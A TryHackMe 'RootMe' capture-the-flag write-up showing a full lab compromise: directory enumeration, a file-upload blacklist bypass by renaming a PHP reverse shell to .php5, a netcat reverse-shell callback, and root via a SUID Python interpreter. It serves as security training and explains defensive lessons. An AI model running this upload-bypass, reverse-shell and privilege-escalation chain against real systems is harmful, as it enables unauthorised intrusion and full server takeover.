# RootMe — TryHackMe

    



## Room Info

| Field | Value |
|---|---|
| Platform | TryHackMe |
| Room | [RootMe](https://tryhackme.com/room/rrootme) |
| Category | Web (file upload vulnerability) → full box |
| Difficulty | Easy |
| Time | ~45 min |
| Target IP | 10.128.161.201 |
| Tools used | `nmap`, `gobuster`, browser dev tools, `php-reverse-shell.php` (pentestmonkey), `nc`, Python `pty` module |

## Objective

A classic, no-guided-tasks beginner CTF box: a web upload form with a naive blacklist filter is the entire foothold, followed by a straightforward SUID-binary privilege escalation. Good box for drilling the *exact* mental checklist that applies to almost every file-upload vulnerability found in the wild — filter type, filter scope, and what the server will actually execute.

## Concept Glossary

**Why File Upload Forms Are High-Value Targets**
Any form that lets a user upload a file to a web server is, at minimum, one bad filter away from remote code execution — if the uploaded file lands somewhere the web server will *execute* (not just serve as a static file) and its filename/content passes whatever validation exists, an attacker gets to run arbitrary code on the server. The entire attack surface reduces to answering: **what does the filter check, and does the server run anything besides the extensions it explicitly expects?**

**Blacklist vs. Whitelist Filtering**
A **blacklist** filter blocks specific known-bad things (e.g. "reject `.php`") and allows everything else by default — which means anything the filter's author didn't think of gets through. A **whitelist** filter does the opposite: only explicitly allowed things (e.g. "only allow `.jpg`, `.png`") are accepted, and everything else is rejected by default. Blacklists are inherently weaker because they require the defender to anticipate every possible bypass, while an attacker only needs to find one thing they missed.

**Alternate PHP Extensions (`.php5`, `.phtml`, `.pht`, etc.)**
Apache's `mod_php` handler is commonly configured to execute *multiple* file extensions as PHP, not just `.php` — historically including `.php3`, `.php4`, `.php5`, and `.phtml`, for backward compatibility across PHP version upgrades. A blacklist filter that only checks for the literal string `.php` will happily accept `shell.php5`, which Apache then executes exactly like a normal PHP file. This is one of the most common real-world file-upload filter bypasses, precisely because it doesn't require any cleverness beyond knowing Apache's configured handler extensions.

**Reverse Shells (`php-reverse-shell.php`)**
A reverse shell flips the normal connection direction: instead of the attacker connecting *to* the target (which firewalls/NAT often block), the target initiates an outbound connection back to a listener the attacker controls. `pentestmonkey`'s `php-reverse-shell.php` is a well-known, battle-tested script that, once executed on a PHP-capable web server, opens a TCP connection back to a specified IP/port and pipes a shell through it. The attacker just needs a listener (`nc -lvp <port>`) running and waiting before the payload executes.

**Upgrading a Raw Shell with `pty.spawn`**
A shell caught via a basic `nc` listener from a web shell is typically a "dumb" non-interactive shell — no tab completion, no `Ctrl+C` handling, broken job control, and often can't run interactive programs like `su` or full-screen editors. Running `python -c 'import pty;pty.spawn("/bin/bash")'` on the target spawns a genuine pseudo-terminal (PTY), which upgrades the shell to behave like a real interactive terminal session. This is one of the most universally useful one-liners in early post-exploitation.

**SUID Enumeration (`find / -perm /4000`) and Python's SUID Privesc**
As covered in Lian_Yu/VulnNet Internal, a SUID-flagged binary executes with its *owner's* privileges regardless of who runs it. `find / -user root -perm /4000` specifically filters for binaries owned by root with the SUID bit set — a direct hit list of potential privilege escalation paths. Finding an interpreter like `python2.7` in that list is a strong signal: interpreters are almost always listed in [GTFOBins](https://gtfobins.github.io/) precisely because they can trivially spawn a fully-privileged shell via `os.execl()`, inheriting the SUID-elevated effective UID the interpreter itself was launched with.

## Walkthrough

### 1. Nmap Scan

```bash
nmap -sV -O 10.128.161.201
```



```
22/tcp  open  ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.13
80/tcp  open  http  Apache httpd 2.4.41 (Ubuntu)
```

Minimal attack surface: SSH and a web server. No credentials for SSH yet, so the web server is the obvious starting point.

### 2. Directory Enumeration

```bash
gobuster dir -u http://10.128.161.201/ -w /usr/share/wordlists/dirb/big.txt
```



```
css       (Status: 301)
js        (Status: 301)
panel     (Status: 301)
uploads   (Status: 301)
```

`panel` and `uploads` together are an immediate tell: a file upload feature (`panel`) and a directory that likely serves whatever gets uploaded to it (`uploads`) — exactly the pairing needed for a classic upload-to-RCE chain.

### 3. The Upload Panel



A bare file upload form, no visible restrictions stated on the page itself — the only way to learn what's actually blocked is to test it.

### 4. Grabbing a PHP Reverse Shell Payload



Rather than writing a payload from scratch, pulling the well-established `php-reverse-shell.php` from pentestmonkey's GitHub — after editing the IP/port at the top of the script to point back to the attacking machine's listener.

### 5. First Upload Attempt — Blocked





```
PHP não é permitido!
```
("PHP is not allowed!" — the server's filter message, in Portuguese.) Confirms a blacklist filter is checking for `.php` specifically.

### 6. Bypassing the Filter — Renaming to `.php5`



Since the filter's error message explicitly calls out "PHP" by extension rather than by content inspection, testing an alternate PHP-executable extension is the obvious next move. Renaming to `php-reverse-shell.php5` and re-uploading:



```
Index of /uploads
php-reverse-shell.php5   5.4K
```

The blacklist only checked for the literal `.php` string — `.php5` sailed straight through, and Apache's `mod_php` handler executes it identically to a normal PHP file.

### 7. Catching the Reverse Shell

With a `nc` listener already running on the attacking machine:

```bash
nc -lvp 4444
```

Then triggering the payload by browsing to `http://10.128.161.201/uploads/php-reverse-shell.php5`:



```
listening on [any] 4444 ...
connect to [192.168.164.247] from 10.128.161.201 [10.128.161.201] 45102
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Shell access as `www-data` — the web server's own low-privilege service account.

### 8. Finding `user.txt`

```bash
find / -name user.txt 2>/dev/null
cat /var/www/user.txt
```



### 9. Upgrading the Shell and Enumerating SUID Binaries

The raw `nc`-caught shell is non-interactive and awkward to work in, so upgrading it first:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

Then hunting for privilege escalation paths:

```bash
find / -user root -perm /4000 2>/dev/null
```



Among the expected system binaries (`sudo`, `passwd`, `newgrp`, `chsh`, etc.), one entry stands out:

```
/usr/bin/python2.7
```

A SUID-flagged Python interpreter is a near-guaranteed privilege escalation path — interpreters can trivially execute arbitrary code, and here that code runs with root's effective privileges thanks to the SUID bit.

### 10. Root Shell and `root.txt`

```bash
/usr/bin/python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
cat /root/root.txt
```



```
# whoami
root
# cat /root/root.txt
```

**Root confirmed.** The `-p` flag on `os.execl`'s spawned shell preserves the effective privileges inherited from the SUID Python binary, the same principle covered in the Madness writeup's `bash -p` step — without it, the spawned shell would silently drop back to `www-data`'s real UID.

## Full Lessons Learned

1. **Blacklist filters lose to enumeration, every time.** The filter here checked for exactly one string (`.php`) and nothing else — a single alternate extension (`.php5`) was the entire bypass. Any file-upload defense that isn't validating actual file *content* (magic bytes, MIME sniffing server-side) rather than just the filename is fundamentally guessable.
2. **Read the error message.** The filter's rejection text ("PHP não é permitido!") directly confirmed what was being blocked and how — a genuinely helpful signal for narrowing down the bypass approach instead of blindly guessing.
3. **`gobuster` pairing (`panel` + `uploads`) is a pattern worth recognizing on sight.** A form to submit files plus a directory that serves them is the textbook shape of an upload-to-RCE chain — worth prioritizing over other discovered paths.
4. **Never skip the PTY upgrade.** A raw `nc`-caught shell is functional but fragile; `python -c 'import pty;pty.spawn("/bin/bash")'` should be close to reflexive the moment any shell lands, before doing serious enumeration work.
5. **SUID interpreters are close to an automatic win.** Unlike more situational SUID binaries, finding a language interpreter (Python, Perl, Ruby, etc.) with the SUID bit set is one of the most reliable, well-documented privilege escalation paths in GTFOBins — worth checking for by name every time a SUID enumeration list comes back.

## Skills Demonstrated

`Web Directory Enumeration (gobuster)` `File Upload Filter Bypass` `Blacklist vs. Whitelist Filtering` `PHP Reverse Shells` `Netcat Listeners` `PTY Shell Upgrades` `SUID Binary Enumeration` `SUID Interpreter Privilege Escalation`

## References

- [TryHackMe — RootMe](https://tryhackme.com/room/rrootme)
- [pentestmonkey — php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- [GTFOBins — python](https://gtfobins.github.io/gtfobins/python/)
- [OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
